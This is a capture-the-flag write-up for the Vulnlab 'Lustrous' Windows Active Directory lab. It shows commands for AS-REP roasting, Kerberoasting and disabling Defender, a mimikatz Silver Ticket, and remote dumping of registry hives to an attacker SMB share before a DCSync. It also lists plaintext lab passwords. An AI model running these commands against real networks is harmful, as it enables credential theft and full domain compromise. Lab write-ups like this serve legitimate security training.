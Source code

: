 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Lustrous/logo.png
date: 2025-05-24 09:45:47 +07:00
modified: 2025-05-24 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Lustrous, Vulnlab, ASREPRoast, Hashcat, Kerberoast, PSCredential Decryption, BloodHound, Silver Ticket, mimikatz, Backup Operators, reg.py, DCSync, Impacket, Active Directory, Privilege Escalation, Kerberos, HTTP Service Ticket, Internal Web Application, SID Enumeration, RDP Access, Defender Bypass, Remote Registry Dump, Machine Account Hash, Windows, Medium]
title: Lustrous - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Lustrous is a Medium-difficulty Windows Active Directory lab that focuses on Kerberos abuse, credential decryption, and privilege escalation via Backup Operators. Initial access is achieved through AS-REP roasting of a user account, followed by a Kerberoast attack to recover service account credentials. Local enumeration uncovers an encrypted PSCredential file, which reveals Administrator credentials upon decryption. Using BloodHound, a privileged user in the Backup Operators group is identified. A forged Silver Ticket is then used to impersonate this user and access internal resources. Finally, registry hives are remotely dumped using Backup Operator privileges, and a DCSync attack with a machine account hash results in full domain compromise.

# Enumeration
```Bash
#LusDC.lustrous.vl 
PORT     STATE SERVICE
21/tcp   open  ftp
53/tcp   open  domain
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
3389/tcp open  ms-wbt-server

#LusMS.lustrous.vl
Host is up (0.14s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

Anonymous FTP was accessible on LusDC, revealing user shares and a .csv file containing several usernames.

```bash
ben.cox
rachel.parker
tony.ward
wayne.taylor
SQLServer2005SQLBrowserUser$LUSDC
```

# Initial Access
## ASREP + Kerberoasting
Using the username list, I performed ASREPRoasting and retrieved a hash for ben.cox.
`GetNPUsers.py lustrous.vl/ -dc-ip 10.10.177.165 -usersfile ./user.txt -format hashcat -no-pass -request -outputfile hashes.asreproast`
![](https://photos.squarezero.dev/file/abir-images/Lustrous/1.png)

I cracked the hash using Hashcat and recovered Ben’s password.
![](https://photos.squarezero.dev/file/abir-images/Lustrous/2.png)

With Ben's credentials, I executed a Kerberoast attack and extracted hashes for two service accounts. One of them, svc_web, was successfully cracked.
![](https://photos.squarezero.dev/file/abir-images/Lustrous/3.png)

# PSCredential Decryption
After logging in, I found an admin.xml file on Ben's desktop containing a saved credential. Using PowerShell, I decrypted the PSCredential object.

![](https://photos.squarezero.dev/file/abir-images/Lustrous/6.png)

The decrypted credentials belonged to the local Administrator on LUSMS.
```Bash
powershell $cred = Import-CliXml -Path C:\users\ben.cox\Desktop\admin.xml; $cred.GetNetworkCredential() | Format-List *

UserName       : Administrator
Password       : XZ9i=bgA8KhRP.f=jr**Qgd3Qh@n9dRF
SecurePassword : System.Security.SecureString
Domain         : LUSMS
```

# Domain Compromise
## Silver Ticket
Further enumeration showed that the Domain Controller hosts a web service that is only accessible internally.
![](https://photos.squarezero.dev/file/abir-images/Lustrous/7.png)

By RDP-ing into a workstation using local admin credentials, I accessed the internal site and logged in using Ben’s credentials. It revealed a note-taking app containing Ben's password.
![](https://photos.squarezero.dev/file/abir-images/Lustrous/8.png)
![](https://photos.squarezero.dev/file/abir-images/Lustrous/9.png)

BloodHound revealed TONY.WARD is a member of the Backup Operators group. With his credentials, we could dump secrets from the DC.
![](https://photos.squarezero.dev/file/abir-images/Lustrous/10.png)

Using the cracked svc_web password, I forged a Silver Ticket to impersonate TONY.WARD and access the internal web service.
```Powershell
# Disable AV
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
```Powershell
mimikatz.exe "kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /user:tony.ward /id:1114 /target:lusdc.lustrous.vl /service:http /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /ptt"
```
![](https://photos.squarezero.dev/file/abir-images/Lustrous/11.png)
![](https://photos.squarezero.dev/file/abir-images/Lustrous/12.png)
![](https://photos.squarezero.dev/file/abir-images/Lustrous/13.png)

Then, I accessed the web application using a browser under Tony’s Kerberos context.
```powershell
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --profile-directory="Default" --auth-server-whitelist="LusDc.lustrous.vl" http://LusDc.lustrous.vl

#Alternative
(iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content
```
![](https://photos.squarezero.dev/file/abir-images/Lustrous/14.png)

## BackupOperator Remote
### Windows
As we dont have access to DC we have to exploit the backup operators right remotely. To exploit the Backup Operators privilege remotely, I used [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) along with an SMB share to collect registry hives:

```Powershell
# Remotely to Our SMB server
.\BackupOperatorToDA.exe -t \\lusdc.lustrous.vl -u tony.ward -p U_cPVQqEI50i1X -d lustrous.vl -o \\10.8.2.110\share

# If we had access to the DC
.\BackupOperatorToDA.exe -t \\lusdc.lustrous.vl -u tony.ward -p U_cPVQqEI50i1X -d lustrous.vl -o C:\windows\tasks\
```
![](https://photos.squarezero.dev/file/abir-images/Lustrous/16.png)
![](https://photos.squarezero.dev/file/abir-images/Lustrous/17.png)

### Linux
Alternatively, the registry hives can be dumped from Linux using Impacket’s reg.py.

```Bash
reg.py lustrous.vl/tony.ward:<PASS>@10.10.177.165 save -keyName 'HKLM\SAM' -o '\\10.8.2.110\share'
reg.py lustrous.vl/tony.ward:<PASS>@10.10.177.165 save -keyName 'HKLM\SYSTEM' -o '\\10.8.2.110\share'
reg.py lustrous.vl/tony.ward:<PASS>@10.10.177.165 save -keyName 'HKLM\SECURITY' -o '\\10.8.2.110\share'

```

## DCSync
After parsing the registry dumps, I extracted hashes for a local admin and the machine account.
`secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save local`
![](https://photos.squarezero.dev/file/abir-images/Lustrous/18.png)

Using the machine account hash, I performed a DCSync attack to retrieve domain credentials and fully compromise the domain.
`secretsdump.py lustrous/'LusDC$'@10.10.177.165 -hashes :<<.......SNIP......>>`
![](https://photos.squarezero.dev/file/abir-images/Lustrous/19.png)